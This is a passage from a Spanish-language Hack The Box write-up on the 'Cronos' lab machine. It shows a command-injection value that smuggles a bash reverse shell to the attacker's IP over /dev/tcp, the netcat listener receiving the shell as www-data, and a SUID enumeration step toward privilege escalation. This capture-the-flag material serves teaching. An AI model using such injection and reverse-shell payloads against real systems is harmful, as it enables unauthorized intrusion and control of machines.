 ![""](/assets/images/htb-cronos/cronos-web5.png)

Y vemos el resultado del comando que ejecutamos `whoami`; por lo tanto tenemos ejecución de comandos, ahora nos entablamos una reverse shell a nuestro equipo, por lo que nos ponemos en escucha por el puerto 443:

```bash
ping 10.10.14.27; bash -c "bash -i >& /dev/tcp/10.10.14.27/443 0>&1"
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.13] 42272
bash: cannot set terminal process group (1378): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ whoami
whoami
www-data
www-data@cronos:/var/www/admin$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt) y así que antes que nada, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora debemos encontrar una forma de escalar privilegios, por lo que vamos a enumerara un poco el sistema.

```bash
www-data@cronos:/home/noulis$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos:/home/noulis$ sudo -l
[sudo] password for www-data: 
www-data@cronos:/home/noulis$ cd /
www-data@cronos:/$ find \-perm -4000 2>/dev/null
./bin/ping
./bin/umount
./bin/mount
./bin/fusermount
./bin/su
./bin/ntfs-3g
./bin/ping6
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/snapd/snap-confine
./usr/lib/eject/dmcrypt-get-device
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/bin/chsh
./usr/bin/newuidmap
./usr/bin/sudo
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/at
```